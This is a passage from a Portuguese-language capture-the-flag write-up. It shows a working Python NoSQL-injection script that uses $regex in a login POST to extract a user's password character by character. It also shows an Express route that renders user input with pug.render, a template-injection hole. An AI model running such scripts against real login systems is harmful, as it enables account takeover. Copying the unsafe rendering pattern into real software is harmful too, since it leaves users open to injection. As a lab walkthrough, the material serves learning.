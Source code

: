 Mas isso já é informação suficiente para escrever uma script para procurar a flag, já existem alguns preparados e eu me baseei em um do [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-urlencoded-body)

- Passo 5: Payload
  Como o script já vem preparado, eu só alterei algumas coisas, o script final ficou assim:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username = "rabbit"
password = ""
u = "http://localhost:3000/user/login"
headers = {'content-type': 'application/x-www-form-urlencoded'}

while True:
    entrou = 0
    lista = string.printable
    for c in lista:
        if c not in ['*', '+', '.', '?', '|', '&', '$']:
            if c in ['(', ')', '[', ']', '\\']:
                c = '\\' + c
            payload = 'username=rabbit&password[$regex]=^' + (password + c)
            print(payload)
            print(password)
            r = requests.post(u, data=payload, headers=headers)
            if 'You Bad Bad' in r.text:
                entrou = 1
                print("Found one more char : %s" % (password+c))
                password += c
    if entrou == 0:
        break
```

Com isso eu consegui encontrar a senha do usuário rabbit e fazer o login

- Passo 6: Explorar como obter a flag
  Até esse momento eu achava que seria algo como um LFI na rota order via POST

```javascript
router.post("/order", checkLogin, checkActive, async (req, res) => {
  let { user_name, candy_name, address } = req.body;

  res.render("confirm", {
    user_name: user_name,
    candy_name: candy_name,
    address: pug.render(address),
  });
});
```
